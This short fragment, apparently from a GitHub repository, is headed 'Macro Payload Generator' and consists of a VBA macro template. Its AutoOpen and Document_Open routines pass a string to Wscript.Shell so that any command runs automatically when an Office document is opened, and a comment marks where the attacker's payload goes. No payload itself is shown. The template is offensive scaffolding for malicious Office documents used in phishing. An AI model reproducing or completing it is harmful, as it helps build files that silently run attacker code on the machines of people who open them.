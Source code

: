 # Macro Payload Generator
    Sub AutoOpen()
        MyMacro
    End Sub
    
    Sub Document_Open()
        MyMacro
    End Sub
    
    Sub MyMacro()
        Dim Str As String
        #paste payload here
        CreateObject("Wscript.Shell").Run Str
    End Sub
